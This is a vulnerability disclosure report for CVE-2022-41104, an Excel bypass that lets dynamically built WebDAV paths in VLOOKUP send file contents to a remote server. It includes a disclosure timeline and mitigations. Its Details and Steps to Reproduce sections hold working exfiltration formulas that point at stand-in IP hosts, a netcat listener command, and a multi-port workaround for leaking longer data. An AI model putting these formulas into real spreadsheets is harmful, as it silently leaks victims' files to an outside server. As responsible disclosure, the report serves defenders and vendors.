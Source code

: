 # CVE-2022-41104: Microsoft Excel Security Feature Bypass
Below is my original report regarding a security feature bypass in Excel that allowed external WebDAV requests to be made without the user seeing an "Enable content" button. This bypass could have been abused to read and exfiltrate data from arbitrary files.

It has since been fixed, and is being tracked as [CVE-2022-41104](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-41104).

## Disclosure Timeline
 - 07/31/2022: Initial report to MSRC via Researcher Portal.
 - 08/08/2022: Report closed as "By Design" as an "Enable Content" button was shown.
 - 08/08/2022: Responded asking for case to be re-opened as the "Enable Content" button was for allowing local file reads, not external WebDAV requests.
 - 08/12/2022: Reached out to an MSRC contact on Twitter for assistance getting the case re-opened.
 - 08/22/2022: MSRC responded stating that the case has been re-opened and the new data was being analyzed.
 - 09/01/2022: MSRC responded stating that they had confirmed the behavior and would determine how to address the issue.
 - 11/02/2022: Requested an update from MSRC and stated intent to disclose.
 - 11/16/2022: MSRC responded stating that the issue had been addressed and tracked as CVE-2022-41104.
 - 11/22/2022: Retested and confirmed that the issue had been fixed.
 - 12/21/2022: Full disclosure.

---

# Excel Arbitrary File Read via WebDAV
Excel supports protocols such as HTTP, SMB, and WebDAV in the `VLOOKUP` function. Excel seems to refuse to execute a call to `VLOOKUP` if the remote URL is dynamically generated when using HTTP or SMB. However, WebDAV is not restricted in the same way. This allows an attacker to read data from potentially sensitive Excel workbooks and many other file types that a victim has access to and then exfiltrate the data via WebDAV requests.

## Details
The `VLOOKUP` function accepts UNC paths and HTTP URLs pointing to remote Excel files. For example, Excel can use these functions to fetch data from a remote workbook:

    =VLOOKUP(A1, 'https://example.com/[data.xlsx]Sheet1'!$A$1:$B$999, 2, TRUE)
    =VLOOKUP(A2, '\\fileserver\finance\[data.xlsx]Sheet1'!$A$1:$B$999, 2, TRUE)

However, when the UNC path or URL is generated by concatenating strings, Excel does not execute the request, such as in these examples:

    =VLOOKUP(A1, INDIRECT(CONCATENATE("'https://example.com/[", "data.xlsx", "]Sheet1'!$A$1:$B$999")), 2, TRUE)
    =VLOOKUP(A1, INDIRECT(CONCATENATE("'\\10.34.122.90\[", "data.xlsx", "]Sheet1'!$A$1:$B$999")), 2, TRUE)

This may be an intentional decision by the Excel team to require remote lookups to use hard-coded URLs and reject dynamically created remote lookups. The `VLOOKUP` function also supports WebDAV URLs, but does not enforce such a restriction. As a result, the following `VLOOKUP` sends a request to a remote server:

    =VLOOKUP(A1, INDIRECT(CONCATENATE("'\\89.122.45.7@80\[", "data.xlsx", "]Sheet1'!$A$1:$B$999")), 2, TRUE)

This function invocation sends a WebDAV request to the server like the following:

    OPTIONS /data.xlsx HTTP/1.1
    Connection: Keep-Alive
    User-Agent: Microsoft-WebDAV-MiniRedir/10.0.22000
    translate: f
    Host: 89.122.45.7:80

This allows an attacker to craft an Excel file which will read data from arbitrary, potentially sensitive files that the victim has access to (such as those on their local system or on a network file share) and then exfiltrate this data by using it as the filename of a remote Excel file via WebDAV requests.

Excel has some quirks that complicate this exfiltration slightly. First, there seems to be a limit on the length of the remote URL, so an attacker must send several WebDAV requests in order to exfiltrate more than a few words from the sensitive file. Second, Excel will not send multiple requests to the same host in a short amount of time. To get around these restrictions, an attacker can listen on multiple ports on a remote server, and send each line of data to a unique port.

The simplest example is reading and exfiltrating data from another Excel workbook. However, in testing it was trivial to create a PowerQuery which would read and exfiltrate data from arbitrary text files. Using PowerQuery allows attackers to read and exfiltrate data from a wide variety of files. Such an attack is demonstrated in `poc-text-file-read.mp4` and the accompanying file `text-file-read.xlsx`.

## Attack Scenario
Suppose Frank is a salesperson who is curious about his coworker's salaries. He knows that there is a file called `salaries.xlsx` on the mapped network drive `k:` pointing to `\\fileshare\finance`. However, he does not have access to this file share and cannot read the `salaries.xlsx` file himself.

Frank can add some `VLOOKUP`s to a report he routinely creates such that when his manager opens the report and refreshes the data, the manager's Excel instance will read data from the `salaries.xlsx` file and then send the data to a remote server that Frank has set up.

Such a scenario is demonstrated in `poc-excel-file-read.mp4`, and the accompanying file `sales-report-july-2022.xlsx`.

## Steps to Reproduce
1. Set up a Linux server, make sure port 80 is open on the external firewall, and bind port 80 to a netcat listener using `nc -l 1.2.3.4 80`, where `1.2.3.4` is the server's local IP address which will be bound to the external public-facing IP address (which we will assume is `4.5.6.7` in the rest of this example).
2. Create a blank Excel file in `C:\Users\<your username>\Documents` called `sensitive.xlsx`.
3. Create an Excel file in `C:\Users\<your username>\Downloads` called `poc.xlsx`.
4. In `poc.xlsx`, set cell `A1` to the formula `='C:\Users\<your username>\Documents\[sensitive.xlsx]Sheet1'!A1:A1`, where `<your username>` is the name of your user profile's home directory.
5. In `poc.xlsx`, set cell `B1` to the formula `=VLOOKUP(A1, INDIRECT(CONCATENATE("'\\4.5.6.7@80\[", A1, "]Sheet1'!A1:A1")), 1, TRUE)` where `4.5.6.7` is the public IP address of your netcat listener.
6. You should see a request in your netcat listener like `OPTIONS /0.xlsx HTTP/1.1` and Excel will lock up. You can use `Ctrl+C` in your Linux terminal to close the connection and Excel will respond again, or simply wait for the connection to time out. Run the netcat listener again to listen for another connection.
7. Save and close `poc.xlsx`.
8. Open `sensitive.xlsx` and set cell `A1` to the string `this is a secret`. Save and close `sensitive.xlsx`.
9. Rename `poc.xlsx` to `poc2.xlsx`.
10. Open `poc2.xlsx` and click `Enable Content` on the warning stating that external links have been disabled.
11. You should see a request in your netcat listener like `OPTIONS /this%20is%20a%20secret.xlsx HTTP/1.1`.

Note that the steps above do not work if HTTP is used instead of WebDAV. For instance, replacing the formula in step 5 with the following will not result in a request being made to the server:

    =VLOOKUP(A1, INDIRECT(CONCATENATE("'http://4.5.6.7/[", A1, "]Sheet1'!A1:A1")), 1, TRUE)

## Impact
- Impact: 5.7 (Medium)
- CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:N/A:N

The impact of this issue is that an attacker with some knowledge of the location of sensitive files can read data from these files with minimal user interaction on the part of a privileged user. The fact that no macros are needed for this attack and that external references are a commonly used feature of Excel increase the odds that such an attack would succeed, and that it would remain undetected.

## Mitigating Factors
Some factors exist which work to minimize the impact of this vulnerability:

- Some knowledge of the location and names of sensitive files is required on the part of the attacker.
- For Excel files, an attacker must know the names of sheets inside the workbook. It may be possible for an attacker to read these names using a PowerQuery.
- Only datasouces which are supported by Excel can be read, such as other Excel workbooks, Access databases, text files, etc. This minimizes the types of files which can be read. However, most types of files that an attacker would be interested in reading can be opened by Excel in some way.

## Suggested Mitigations
The Excel team should restrict WebDAV URLs in the same way that UNC paths and URLs seem to be restricted, such that attempts to access a dynamically generated WebDAV URLs are ignored.

If not needed for business purposes, security and network administrators should block outbound HTTP and WebDAV requests which include the user-agent `Microsoft-WebDAV-MiniRedir/*`.

Security administrators should consider deploying Windows Defender Application Guard for Office, and configuring it to open all untrusted Office files.